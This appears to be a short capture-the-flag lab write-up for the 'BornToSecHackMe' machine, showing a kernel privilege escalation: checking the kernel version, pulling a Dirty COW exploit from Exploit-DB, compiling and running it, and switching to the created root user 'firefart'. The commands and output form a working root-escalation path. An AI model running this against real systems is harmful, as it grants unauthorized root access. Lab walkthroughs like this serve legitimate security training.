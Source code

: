 #### Get kernel version

```
zaz@BornToSecHackMe:~$ uname -r
3.2.0-91-generic-pae
```

#### Searching exploit on google

https://www.exploit-db.com/exploits/40839

#### Compile and execute exploit

```
zaz@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
zaz@BornToSecHackMe:~$ ./dirty 123456
```

#### Now switch user to firefart as mentioned in the exploit 

```
zaz@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
```

#### We are now root
